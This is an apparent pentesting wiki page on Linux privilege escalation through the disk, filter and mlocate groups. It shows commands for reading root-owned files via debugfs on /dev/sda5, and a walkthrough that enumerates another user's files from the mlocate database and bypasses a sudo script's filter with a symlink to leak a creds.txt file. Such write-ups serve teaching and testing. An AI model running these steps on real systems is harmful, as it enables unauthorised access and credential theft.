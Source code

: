 # Groups

## Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```

## Filter

The `filter` group is usually a **custom group**, not a default Linux group, and it’s commonly used to manage permissions around mail content filtering components. It can be assigned writable access to sensitive files, such as [disclaimer files](../../../../../services/tcp/mail/25-587-smtp.md#disclaimer-files), which can lead to PE.

## Mlocate

The `mlocate` group exists on Linux systems with the `mlocate` utility installed, which maintains a searchable index of the filesystem at `/var/lib/mlocate/mlocate.db`. This database is normally restricted, as it may list files and directories that a user cannot access directly. However, members of the `mlocate` group can read it and extract full file paths — including sensitive or hidden files like credentials, SSH keys, or backups.

While the database does **not** expose file contents or permissions, it reveals **what exists and where**, making it highly valuable for enumeration and targeting during privilege escalation. Thus, being in the `mlocate` group is a significant **information disclosure vector**. It doesn’t give direct access to files, but it reveals **what to target**, which is often the hardest part of privilege escalation.

As an example, let's say that on a Linux host (`kali`), a user named `bob` is part of the `mlocate` group, thus, it has access to the prebuilt file index database located at `/var/lib/mlocate/mlocate.db`.

{% code overflow="wrap" %}
```bash
$ id
uid=1000(bob) gid=1000(bob) groups=1000(bob),100(users),119(mlocate)

$ find / -group mlocate 2>/dev/null
/var/lib/mlocate/mlocate.db
/usr/bin/mlocate
```
{% endcode %}

A privileged script exists at `/usr/bin/sync.sh`, owned by `root`, world-readable and executable. It’s configured in `sudo -l` such that `bob` can run it as user `mark`:

```bash
$ sudo -l
(bob) may run the following commands on kali:
    (mark) /usr/bin/sync.sh
    
$ ls -la /usr/bin/sync.sh
-rwxr-xr-x 1 root root 386 Jul 13  2022 /usr/bin/sync.sh
```

Reviewing the script reveals that it accepts a file path as an argument. It then compares that file to `/home/mark/personal/notes.txt` using `diff`, and if a difference is detected, it overwrites `notes.txt` with the provided file. However, it includes two constraints:&#x20;

1. If no argument is supplied, it exits
2. If the file path contains the string `mark`, it also exits. This prevents directly referencing the target file.

```bash
#!/bin/bash

if [ -z $1 ]; then
    echo "error: note missing"
    exit
fi

note=$1

if [[ "$note" =~ .*mark.* ]]; then
    echo "error: forbidden"
    exit
fi

difference=$(diff /home/mark/personal/notes.txt $note)

if [[ -z $difference ]]; then
    echo "no update"
    exit
fi

echo "Difference: $difference"
cp $note /home/mark/personal/notes.txt
echo "[+] Updated."
```

This creates a controlled file write into a sensitive path owned by another user. But to exploit it, several conditions must be met:

* The name `mark` cannot appear in the input path.
* The target file must be known ahead of time.
* The file being supplied must be different from `notes.txt`.

Since direct browsing into `/home/mark/` is not possible due to permission restrictions, the membership in the `mlocate` group becomes useful. The user can extract strings from the `mlocate` database to enumerate the contents of `/home/mark/personal/`:

{% code overflow="wrap" %}
```bash
$ grep -a -o -P '[\x20-\x7E]{4,}' /var/lib/mlocate/mlocate.db | grep '/home/mark/personal' -A10
# or 
$ strings /var/lib/mlocate/mlocate.db | grep '/home/mark/personal'
/home/mark/personal/creds.txt
```
{% endcode %}

Although the script prevents paths containing `mark`, this limitation can be bypassed using a symbolic link. A symlink pointing to the real target is created using a harmless name:

```bash
$ ln -sf /home/mark/personal/creds.txt decoy
```

When passed to the script, the symlink is followed. The `diff` command compares the contents of `creds.txt` to `notes.txt`, and if they differ, the script prints the diff and overwrites `notes.txt` with `creds.txt`.

```bash
$ sudo -u mark /usr/bin/sync.sh decoy
```

This results in the credentials being leaked directly to standard output via the `diff` command, satisfying all script conditions while bypassing path restrictions through symlink manipulation.

